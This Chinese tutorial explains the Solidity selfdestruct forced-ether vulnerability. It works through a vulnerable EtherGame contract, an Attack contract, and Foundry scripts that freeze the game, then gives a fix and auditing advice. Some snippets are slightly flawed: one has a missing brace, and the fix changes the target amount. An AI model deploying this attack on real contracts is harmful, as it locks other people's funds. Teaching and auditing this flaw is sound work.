


# 自毁：不可预期的ether

<font style="color:rgb(51, 51, 51);">solidity 中能够转账的操作：</font>

1. <font style="color:rgb(51, 51, 51);background-color:#FBDFEF;">transfer</font><font style="color:rgb(51, 51, 51);">：转账出错会抛出异常，后面代码不执行；</font>
2. <font style="color:rgb(51, 51, 51);background-color:#FBDFEF;">send</font><font style="color:rgb(51, 51, 51);">：转账出错不会抛出异常，只返回 true/false 后面代码继续执行；</font>
3. <font style="color:rgb(51, 51, 51);background-color:#FBDFEF;">call.value().gas()()</font><font style="color:rgb(51, 51, 51);">：转账出错不会抛出异常，只返回 true/false 后面代码继续执行，且使用 call 函数进行转账容易发生重入攻击（这里可查阅：</font>[<font style="color:rgb(2, 105, 200);">智能合约安全审计-入门篇之重入漏洞</font>](https://learnblockchain.cn/article/3278)<font style="color:rgb(51, 51, 51);">）。</font>

<font style="color:rgb(51, 51, 51);">上面三种都需要目标接收转账才能成功将代币转入目标地址，下面我们来看一个不需要接受就能给合约转账的函数：自毁函数。</font>

# <font style="color:rgb(51, 51, 51);">自毁函数</font>

<font style="color:rgb(51, 51, 51);">由以太坊智能合约提供，用于销毁区块链上的合约系统。</font>

<font style="color:rgb(51, 51, 51);">当合约执行自毁操作时，合约账户上剩余的以太币会发送给指定的目标，然后其存储和代码从状态中被移除。</font>

# <font style="color:rgb(51, 51, 51);">漏洞示例</font>

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.10;

contract EtherGame {
  uint public targetAmount = 7 ether;
  address public winner;

  function deposit() public payable {
    require(msg.value == 1 ether, "You can only send 1 Ether");

    uint balance = address(this).balance;        require(balance <= targetAmount, "Game is over");

    if (balance == targetAmount) {
      winner = msg.sender;
    }
  }
  function claimReward() public {
    require(msg.sender == winner, "Not winner");

    (bool sent, ) = msg.sender.call{value: address(this).balance}("");
    require(sent, "Failed to send Ether");
  }
}
```

<font style="color:rgb(51, 51, 51);">玩家每次向 EtherGame 合约中打入一个以太，</font>**<font style="color:rgb(51, 51, 51);">第七个</font>**<font style="color:rgb(51, 51, 51);">成功打入以太的玩家将成为 winner。winner 可以提取合约中的 7 个以太。</font>

## 漏洞分析

<font style="color:rgb(51, 51, 51);">玩家每次玩游戏时都会调用 </font><code><font style="color:rgb(51, 51, 51);">EtherGame.deposit</font></code><font style="color:rgb(51, 51, 51);">函数向合约中先打入一个以太，随后函数会检查合约中的余额(balance)是否小于等于 7 ，只有合约中的余额小于等于 7 时才能继续，否则将回滚。合约中的余额(balance)是通过 </font><code><font style="color:rgb(51, 51, 51);">address(this).balance</font></code><font style="color:rgb(51, 51, 51);"> 取到的，这就意味着我们只要有办法</font>**<font style="color:rgb(51, 51, 51);">在产生 winner 之前改变 EtherGame 合约中的余额，</font>**<font style="color:rgb(51, 51, 51);">让他等于 7 ，就会使该合约瘫痪</font>

<font style="color:rgb(51, 51, 51);">这样我们的攻击方向就明确了，只要我们</font>**<font style="color:rgb(51, 51, 51);">强制给 EtherGame 合约打入一笔以太，</font>**<font style="color:rgb(51, 51, 51);">让该合约中的余额大于或等于 7 ，这样后面的玩家将无法通过 EtherGame.deposit 的检查，从而使 EtherGame 合约瘫痪，永远无法产生 winner。</font>

<font style="color:rgb(51, 51, 51);">但是 EtherGame.deposit 函数中存在验证：require(msg.value == 1 ether, "You can only send 1 Ether")，这里要求我们每次只能打一个以太进去，所以通过正常路径是不可能一次向 EtherGame 打入大于 1 枚的以太的，但是我们又需要打入大于 1 枚的以太到 EtherGame 合约中，所以需要找到另外的路径，来将以太转入到 EtherGame 合约中。</font>

<font style="color:rgb(51, 51, 51);">我们可以构造一个攻击合约，然后触发 selfdestruct 函数让攻击合约自毁，攻击合约中的以太就会发送给目标合约。这样我们就可以一次向 EtherGame 合约中打入多枚以太，而不通过 EtherGame.deposit 函数，从而完成攻击。</font>

## <font style="color:rgb(51, 51, 51);">攻击合约</font>

```solidity
contract Attack {
  EtherGame etherGame;

  constructor(EtherGame _etherGame) {
    etherGame = EtherGame(_etherGame);
  }

  function attack() public payable {
    address payable addr = payable(address(etherGame));
    selfdestruct(addr);
  }
```

1. <font style="color:rgb(51, 51, 51);">开发者部署 EtherGame 合约；</font>
2. <font style="color:rgb(51, 51, 51);">玩家 Alice 决定玩游戏，她这辈子玩游戏从来没赢过，她觉得这个游戏可以让她体验一次当 winner 的快感，所以她决定连续调用 EtherGame.deposit 存入 7 个以太这样她就一定是 winner！正当她操作到第六次眼看还有一次今成功的时候，意外发生了（此时合约中已经有 Alice 存入的 6 个以太了）；</font>
3. <font style="color:rgb(51, 51, 51);">攻击者 Eve 部署 Attack 合约并在构造函数中传入 EtherGame 合约的地址；</font>
4. <font style="color:rgb(51, 51, 51);">攻击者 Eve 调用 Attack.attack 并设置 msg.value = 1 ，函数触发 selfdestruct 将这 1 个以太强制打入 EtherGame 合约中。此时 EtherGame 合约中有 7 个以太（分别为 Alice 的六个以太和攻击者刚刚打入的 1 个以太）；</font>
5. <font style="color:rgb(51, 51, 51);">这时玩家 Bob 也决定玩游戏，存入 1 个以太后合约中有 7+1=8 个以太，无法通过 require(balance <= targetAmount, "Game is over") 的检查并回滚。到这里我们已经成功的使 EtherGame 合约瘫痪了，这个游戏将永远不会产生 winner，Alice 的 winner 梦也就此破灭了，6 个以太被永远的锁在了 EtherGame 合约中。哎，可怜的 Alice 。</font>

# 修复建议

## 作为开发者

<font style="color:rgb(51, 51, 51);">这里我们就拿上面的漏洞合约 EtherGame 来说，这个合约可以被攻击者攻击是因为</font>**<font style="color:rgb(51, 51, 51);">依赖了 </font>****<font style="color:rgb(51, 51, 51);background-color:#FBDFEF;">address(this).balance</font>****<font style="color:rgb(51, 51, 51);"> </font>**<font style="color:rgb(51, 51, 51);">来获取合约中的余额且这个值可以影响业务逻辑，所以我们这里可以设置一个变量 balance，只有玩家通过 EtherGame.deposit 成功向合约打入以太后 balance 才会增加。这样只要不是通过正常途径进来的以太都不会影响我们的 balance 了，避免强制转账导致的记账错误。下面是修复代码：</font>

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.10;

contract EtherGame {
  uint public targetAmount = 3 ether;
  uint public balance;
  address public winner;

  function deposit() public payable {
    require(msg.value == 1 ether, "You can only send 1 Ether");

    balance += msg.value;
    require(balance <= targetAmount, "Game is over");

    if (balance == targetAmount) {
      winner = msg.sender;
    }
  }
  function claimReward() public {
    require(msg.sender == winner, "Not winner");

    (bool sent, ) = msg.sender.call{value: balance}("");
    require(sent, "Failed to send Ether");
  }
}
```

## <font style="color:rgb(51, 51, 51);">作为审计者</font>

<font style="color:rgb(51, 51, 51);">作为审计者我们需要结合真实的业务逻辑来查看 address(this).balance 的使用是否会影响合约的正常逻辑，如果会影响那我们就可以初步认为这个合约存在被攻击者强制打入非预期的资金从而影响正常业务逻辑的可能（比如被 selfdestruct 攻击）。在审计过程中还需要结合实际的代码逻辑来进行分析。</font>

# <font style="color:rgb(51, 51, 51);">实现</font>

部署目标合约，得实例地址

```solidity
// SPDX-License-Identifier: SEE LICENSE IN LICENSE
pragma solidity ^0.8.0;

import {EtherGame} from "../src/ehergame.sol";
import {Script} from "forge-std/Script.sol";
import {Attack} from "../src/Attack.sol";

contract Attacksc is Script {
    function run() external {
        vm.startBroadcast();
        Attack attack = new Attack(
            EtherGame(0x700b6A60ce7EaaEA56F065753d8dcB9653dbAD35)
        );
        attack.attack{value: 8 ether}();//打如钱
        vm.stopBroadcast();
    }
}

```

看看实例地址是不是有了8ether



o如k

接下来请出可怜的Alice

```solidity
// SPDX-License-Identifier: SEE LICENSE IN LICENSE
pragma solidity ^0.8.0;

import {EtherGame} from "../src/ehergame.sol";
import {Script} from "forge-std/Script.sol";
import {Attack} from "../src/Attack.sol";

contract Alice is Script {
    function run() external {
        vm.startBroadcast();
        EtherGame alice = EtherGame(0x700b6A60ce7EaaEA56F065753d8dcB9653dbAD35);
        alice.deposit{value: 1 ether}();
        vm.stopBroadcast();
    }
}
```



Game is over~


> 更新: 2025-07-31 11:10:00  
> 原文: <https://www.yuque.com/xiaoyuhushenfu/yzin4n/vt3bftb4vwkxieg7>